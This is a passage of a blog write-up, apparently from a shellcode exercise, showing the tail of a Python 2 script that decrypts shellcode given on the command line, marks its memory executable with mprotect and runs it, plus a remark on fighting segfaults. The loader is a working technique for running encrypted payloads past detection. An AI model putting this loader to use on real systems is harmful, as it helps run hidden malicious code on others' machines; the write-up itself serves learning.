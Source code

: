         opts, args=getopt.getopt(argv, "hk:e:", ["help", "key", "encrypted-shellcode"] )
    except getopt.GetoptError:
        help()
        sys.exit(1)

    for opt, arg in opts:
        if opt in ('-h', '--help'):
            help()
            sys.exit(0)
        elif opt in ('-k', '--key'):
            key=arg
        elif opt in ('-e', '--encrypted-shellcode'):
            enc = arg


    if not key:
        print "Please specify a decryption key using the -k flag";
        help();
        sys.exit(-2);

    if not enc:
        print "Please specify a payload to decrypt using the -e flag";
        help();
        sys.exit(-3);



    enc_b= enc.replace('\\x', '').decode('hex')

    shellcode_data=decrypt(enc_b, key);
    sys.stdout.write("decrypted shellcode: \\x")
    sys.stdout.flush()
    print '\\x'.join(map("%2.2x".__mod__, map(ord, shellcode_data)))

    print "launching the shellcode..."


    shellcode=create_string_buffer(shellcode_data)
    function  = cast(shellcode, CFUNCTYPE(None))

    addr = cast(function, c_void_p).value
    libc = CDLL('libc.so.6')
    pagesize = libc.getpagesize()
    addr_page = (addr // pagesize) * pagesize

    for page_start in range(addr_page, addr+len(shellcode_data), pagesize):
        assert libc.mprotect(page_start, pagesize, 0x7) == 0
    function()
    
if __name__ == "__main__":
    main(sys.argv[1:])
{% endhighlight %}

Launching the shellcode is **really** hard stuff. I've to fight against tons of
SEGFAULTS and this post saved me in getting rid of non executable bit
protection for memory regions:
[https://stackoverflow.com/questions/19326409/python-ctype-segmentation-fault](https://stackoverflow.com/questions/19326409/python-ctype-segmentation-fault).
